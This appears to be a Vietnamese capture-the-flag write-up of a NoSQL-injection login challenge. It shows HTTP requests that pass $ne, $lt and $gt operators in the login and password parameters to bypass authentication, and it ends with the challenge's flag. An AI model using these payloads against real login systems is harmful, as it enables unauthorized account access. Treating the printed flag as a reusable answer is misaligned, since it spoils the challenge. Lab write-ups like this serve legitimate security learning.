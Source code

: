 
# 45. NoSQL injection - Authentication

- Đầu tiên thử login bằng admin/admin thì nhận về bị bad request.

- Đề cho hint là Nosql nên ta thử dùng cú pháp nosql: 

```
GET /web-serveur/ch38/?login[$ne]=admin&pass[$ne]=admin HTTP/1.1
```

  - $ne: so sánh khác

- Kết quả:

```
You are connected as : test
```

- Chuyển sang so sánh với `test`:

```
GET /web-serveur/ch38/?login[$ne]=test&pass[$ne]=admin
```

- Kết quả:

```
You are connected as : admin
```

- Có thể thấy, ngoài `test` và `admin` còn một số user khác => ta sẽ dùng `$lt` (lest than) và `$gt` (greater than) để xem khoảng ở giữa.

```
GET /web-serveur/ch38/?login[$lt]=test&login[$gt]=admin&pass[$ne]=admin
```

- Result:

![1](img/45/Screenshot%20from%202023-01-31%2011-55-03.png)

```
flag: nosqli_no_secret_4_you
```

# 46. PHP - Path Truncation
